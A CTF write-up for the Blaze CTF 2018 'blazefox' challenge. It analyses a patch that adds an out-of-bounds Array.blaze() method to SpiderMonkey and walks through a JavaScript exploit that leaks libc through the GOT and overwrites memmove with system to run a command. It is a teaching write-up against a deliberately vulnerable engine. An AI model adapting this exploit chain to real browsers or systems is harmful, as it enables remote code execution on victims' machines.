






# Blaze CTF 2018 blazefox

# 0. Set up environment 
1. Follow the [official guide](https://developer.mozilla.org/en-US/docs/Mozilla/Developer_guide/Build_Instructions/Simple_Firefox_build/Linux_and_MacOS_build_preparation) to install all dependence required and carry on basic set up 

2. (If you are using ubuntu) You may need update your compiler before process to later steps:

update from source : https://gist.github.com/application2000/73fd6f4bf1be6600a2cf9f56315a2d91

link for gcc library(you may need to revert to the gcc near to the competiton time to reproduce this exploit) : https://ftp.gnu.org/gnu/gcc/

build gcc :

```
wget ftp://ftp.mirrorservice.org/sites/sourceware.org/pub/gcc/releases/gcc-7.3.0/gcc-7.3.0.tar.xz
tar xvf gcc-7.3.0.tar.xz
cd gcc-7.3.0/
mkdir build
cd build
./contrib/download_prerequisites
../configure --enable-languages=c,c++ --disable-multilib
make -j 8
sudo make install
gcc --version
```

3.For testing or development of exploit, you just need to build the spidermonkey engine instead of the whole firefox(time consuming and hard to build) For real env, you may use the docker setup provided by the organizer

Step to build the Spidermonkey engine:

Copied from https://bruce30262.github.io/2017/12/15/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/

```
cd js/src/
cp configure.in configure && autoconf2.13
mkdir build_DBG.OBJ 
cd build_DBG.OBJ 
../configure --disable-optimize
make # or make -j8
cd ..
```

You should turn off the debug option, since debug options will add tons of assertion to the js-engine,and blocks the exploit

# 1. Patch analysis

```
diff -r ee6283795f41 js/src/builtin/Array.cpp
--- a/js/src/builtin/Array.cpp	Sat Apr 07 00:55:15 2018 +0300
+++ b/js/src/builtin/Array.cpp	Sun Apr 08 00:01:23 2018 +0000
@@ -192,6 +192,20 @@
     return ToLength(cx, value, lengthp);
 }
 
+static MOZ_ALWAYS_INLINE bool
+BlazeSetLengthProperty(JSContext* cx, HandleObject obj, uint64_t length)
+{
+    if (obj->is<ArrayObject>()) {
+        obj->as<ArrayObject>().setLengthInt32(length);
+        obj->as<ArrayObject>().setCapacityInt32(length);
+        obj->as<ArrayObject>().setInitializedLengthInt32(length);
+        return true;
+    }
+    return false;
+}
+
+
+
 /*
  * Determine if the id represents an array index.
  *
@@ -1578,6 +1592,23 @@
     return DenseElementResult::Success;
 }
 
+bool js::array_blaze(JSContext* cx, unsigned argc, Value* vp)
+{
+    CallArgs args = CallArgsFromVp(argc, vp);
+    RootedObject obj(cx, ToObject(cx, args.thisv()));
+    if (!obj)
+        return false;
+
+    if (!BlazeSetLengthProperty(cx, obj, 420))
+        return false;
+
+    //uint64_t l = obj.as<ArrayObject>().setLength(cx, 420);
+
+    args.rval().setObject(*obj);
+    return true;
+}
+
+
 // ES2017 draft rev 1b0184bc17fc09a8ddcf4aeec9b6d9fcac4eafce
 // 22.1.3.21 Array.prototype.reverse ( )
 bool
@@ -3511,6 +3542,8 @@
     JS_FN("unshift",            array_unshift,      1,0),
     JS_FNINFO("splice",         array_splice,       &array_splice_info, 2,0),
 
+    JS_FN("blaze",            array_blaze,      0,0),
+
     /* Pythonic sequence methods. */
     JS_SELF_HOSTED_FN("concat",      "ArrayConcat",      1,0),
     JS_INLINABLE_FN("slice",    array_slice,        2,0, ArraySlice),
diff -r ee6283795f41 js/src/builtin/Array.h
--- a/js/src/builtin/Array.h	Sat Apr 07 00:55:15 2018 +0300
+++ b/js/src/builtin/Array.h	Sun Apr 08 00:01:23 2018 +0000
@@ -166,6 +166,9 @@
 array_reverse(JSContext* cx, unsigned argc, js::Value* vp);
 
 extern bool
+array_blaze(JSContext* cx, unsigned argc, js::Value* vp);
+
+extern bool
 array_splice(JSContext* cx, unsigned argc, js::Value* vp);
 
 extern const JSJitInfo array_splice_info;
diff -r ee6283795f41 js/src/vm/ArrayObject.h
--- a/js/src/vm/ArrayObject.h	Sat Apr 07 00:55:15 2018 +0300
+++ b/js/src/vm/ArrayObject.h	Sun Apr 08 00:01:23 2018 +0000
@@ -60,6 +60,14 @@
         getElementsHeader()->length = length;
     }
 
+    void setCapacityInt32(uint32_t length) {
+        getElementsHeader()->capacity = length;
+    }
+
+    void setInitializedLengthInt32(uint32_t length) {
+        getElementsHeader()->initializedLength = length;
+    }
+
     // Make an array object with the specified initial state.
     static inline ArrayObject*
     createArray(JSContext* cx,
```

Basically, if we call .blaze() to any array object, it will change the array to length 420, without checking the actual size of the object, causing out-of-bound read issues.

Triggering the vulnerability : 



# 2. Exploit development

(major reference of my exploit is from https://bpsecblog.wordpress.com/2017/04/27/javascript_engine_array_oob/)

The first step is to create an array, a mark it with 0x71717171 for easy to debug
```js
var oob_Array=new Array(1)
oob_Array[0]=0x71717171
```

After that, open another 0x2000 array and assign each array object with 0x4141414141, then trigger the oob vulnerability

```js
var uint32_Array=new Uint32Array(0x2000)
for(var i=0; i<0x2000; i=i+1) {uint32_Array[i]=0x4141414141}
oob_Array.blaze()
```



Basically the 0xfff88000 in front of 0x71717171 are type indicator of 0x71717171

lets find where are the "A" located in the memory.


We can observe the memory structure of the oob_Array as follows (details plz read bpsec's blog post):



The 0x2000 on the memory is the size of our array object.

Next step is to use 0x2000 as a flag to leak out the index on the oob_Array,such that we can do out of bound read write by replacing the pointer to the "A" array with the memory address we wanna read 

```
//find the function size tag(0x2000) from the oob array
uint32_baseaddress_offset=0
for (i=0; i<0x2000; i++)
{
        if(oob_Array[i]==0x2000)
        {
                print('uInt32Array found');
                uint32_baseaddress_offset=i+2
                break;
        }
}
```



Next step is to leak out some pointer to calculate the offset 

This time since we are using the js engine, it didn't compiled with PIE , we can directly use pwntools or IDA PRO to obtain the address of the GOT, if we are attack the real firefox browser, we need to find the code base.

To leak the code base, in this chal, we can leak the <emptyElementsHeader+16> , which located closely to our oob array



After some calculation we obtained the location of the GOT on the program. 

This time, I choose to leak the libc by reading the GOT of fopen.(There are some other options, like memmove but with unknown reasons, it didn't called on direct execute mode)

```js
console.log("address of the buffer")
p_i2(oob_Array[uint32_baseaddress_offset]);
// emptyelelement header 
// use for de PIE
console.log("address of emptyelement")
p_i2(oob_Array[uint32_baseaddress_offset-4]);

//>>> hex(e.got["memmove"])
//'0x2354040'
//>>> hex(e.got["system"])
//'0x23540b0'


// on js shell, we just leak the no aslr memove
// then calculate the offset
// dont know why it did not call memmove in headless mode
fopen_got=[0,0x2354050]
fopen_leak=read64(fopen_got);
console.log("leaked fopen");
debug_log(fopen_leak)
print(hex(fopen_leak))
//libc from system libc

libc_base= [fopen_leak[0],fopen_leak[1]-0x6dd70]
system =[libc_base[0],libc_base[1]+0x45390]

```


Last step is to carry out GOT hijacking 

Following saelo 's approach on 33C3 feuerfuchs's exploit, we will hijack memmove and change it to system, then call .copyWithin(0,1) to trigger system(command)


```js
fopen_got=[0,0x2354050]
fopen_leak=read64(fopen_got);
console.log("leaked fopen");
debug_log(fopen_leak)
print(hex(fopen_leak))
//libc from system libc

libc_base= [fopen_leak[0],fopen_leak[1]-0x6dd70]
system =[libc_base[0],libc_base[1]+0x45390]

//trick from saelo
var target = new Uint8Array(100);
var cmd = "id;xcalc";
for (var i = 0; i < cmd.length; i++) {
    target[i] = cmd.charCodeAt(i);
}
// got hijacking
memmove_got=[0,0x2354040]
write4(memmove_got,system)


//shell 
console.log("[+] PWNED")
target.copyWithin(0,1)


```

PWNED :)




remark : the offset of the system function is found from the system libc 


# Reference

1. http://charo-it.hatenablog.jp/entry/2018/05/07/011051

2. https://bpsecblog.wordpress.com/2017/04/27/javascript_engine_array_oob/

3. https://github.com/Jinmo/ctfs/blob/master/2018/blaze/pwn/blazefox.html

4. https://github.com/vakzz/ctfs/blob/master/Blaze2018/blazefox/exploit.html

5. https://bruce30262.github.io/2017/12/15/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/
